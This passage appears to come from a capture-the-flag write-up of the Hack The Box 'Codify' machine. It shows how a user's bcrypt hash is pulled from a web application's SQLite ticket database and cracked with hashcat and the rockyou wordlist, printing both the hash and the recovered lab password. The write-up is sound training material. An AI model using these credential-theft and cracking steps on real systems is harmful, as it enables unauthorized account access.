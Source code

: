 In `/var/www/contact` there's a suspicious DB file : `tickets.db`

```bash
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db

svc@codify:/var/www/contact$ file tickets.db
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```

### Analyze sqlite file

Let's move this file to Kali and analyze it.
With `sqlitebrowser` openning the `tickets.db` file, I can read hash for `joshua`.

![](attachments/codify_5.png)

```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Let's crack it using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/codify]
└─$ hashcat -m 3200 hash --user /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

...SNIP...

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2

...SNIP...
```
